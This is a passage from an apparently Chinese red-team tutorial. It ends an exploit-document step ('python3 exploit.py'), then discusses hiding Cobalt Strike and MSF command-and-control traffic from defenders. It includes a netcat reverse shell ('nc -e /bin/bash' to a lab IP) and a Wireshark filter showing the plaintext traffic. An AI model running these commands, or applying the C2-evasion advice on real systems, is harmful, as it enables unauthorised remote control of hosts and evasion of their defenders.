 ###### 5、监听文档

```
python3 exploit.py host 10000
```

###### 6、取出文档执行便上线

**注意**：杀毒能杀掉，杀的是漏洞，不好免杀

# 流量方面

**背景交代**

在红蓝对抗或日常测试中会出现一种情况，当我们终于让目标机器上线后，却因为明显的通信特征被安全设备检测到从而失去目标机器的控制权限，这时就需要对 Cobalt Strike 或 MSF 的**特征进行隐藏**、对其通信**流量进行混淆**

**常见红蓝对抗中红队面临问题**

```
1、通讯协议走TCP&UDP协议，直接被防火墙限制出网
2、通讯协议走无加密HTTP协议，直接明文传输成指纹特征
3、通讯协议走HTTPS或DNS加密协议，直接工具证书成指纹特征
4、通讯协议走HTTPS或DNS加密协议，特征指纹等修改后又被朔源拉黑
```

红队进行权限控制，主机开始限制出网，尝试走常见出网协议 http/https ,结果流量设备入侵检测检测系统发现异常，尝试修改工具指纹特征加密流量防止检测，结果被定位到控制服务器，再次使用 CDN ，云函数，第三方上线等进行隐藏保证权限维持

**蓝队发现处置情况**

```
1.蓝队-朔源后拉黑控制IP
2.蓝队-设备平台指纹告警
3.蓝队-流量分析异常告警
```

## NC-流量抓包

### 未加密

```
nc -lvvp 5577    # Ubuntu 192.168.10.10
nc -e /bin/bash 192.168.10.10 5577   # kali 192.168.10.8
```

我们在 kali 上使用 wireshark 抓包能发现传输的**明文数据**，这个就很容易被发现

wireshark 过滤  https://pcedu.pconline.com.cn/1530/15300544.html

```
tcp.port==5577   # wireshark 过滤
```
